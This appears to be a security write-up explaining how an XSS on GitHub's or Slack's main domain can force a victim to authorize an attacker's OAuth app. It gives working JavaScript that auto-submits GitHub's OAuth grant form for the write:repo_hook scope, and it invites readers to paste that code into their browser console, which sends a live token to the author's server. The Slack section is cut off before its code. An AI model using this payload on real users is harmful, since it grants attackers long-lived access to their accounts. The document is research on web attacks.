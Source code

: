 Because we're able to perform actions on behalf of the user, as long as the Oauth grant page is hosted on the same origin as the origin we've found XSS, we can install Oauth applications on behalf of our user. Let's see what this looks like. 

### Github Example
First we'll build an Oauth app in Github:

![Oauth XSS](https://i.imgur.com/Sfuhzgs.png)

If you're familiar with Oauth, once the user clicks the authorize button, it grants our server a long lived token access to all the scopes requested.

Github has some protections against certain oauth scopes, forcing users to re-enter credentials if they haven't entered them recently, for those Oauth scopes. For this reason, our app requests scopes that do not require credentials. The scopes are email, and read/write Webhooks. This will allow us to install [Webhooks](https://developer.github.com/webhooks/) on repos on behalf of the user.


Because Github hosts their Oauth grant on their main domain, XSS anywhere on github.com will allow us to Authorize the app on behalf of the user. To simulate this XSS, one can paste the following into their Javascript terminal 
**Warning, this will send my server a live Oauth credential.**

Code to paste:
```javascript
fetch("https://github.com/login/oauth/authorize?client_id=3b46677ca554abcd215a&scope=email,write:repo_hook").then(function(response) {
    response.text().then(function (text) {
        var oauthForm = '<form id="potato" action="/login/oauth/authorize"' + text.split('<form action="/login/oauth/authorize"')[1].split("<button")[0] + '<input name="authorize" value="1"><input type="submit" id="potato"></form>';
        document.write(oauthForm);
		document.getElementById("potato").submit();
    });
  })
  ```

Terminal: 
![Oauth XSS Github](https://i.imgur.com/xhI0blq.png)

And that's pretty much it. The code above installs the Oauth application, and it sends the token to my server. The attacker now has long lived access to the victim's account, and can install webhooks on behalf of the user.

### Slack example

With the same technique we can target slack. The following Javascript code forces you to install an Oauth application in your workspace, given you have permissions to do so:

![Slack Oauth XSS App](https://i.imgur.com/qQVKLT3.png)

Feel free to again simulate the XSS by pasting the below Javascript into your terminal anywhere on your workspace domain.
 **Warning, this will send my server a live Oauth credential.**
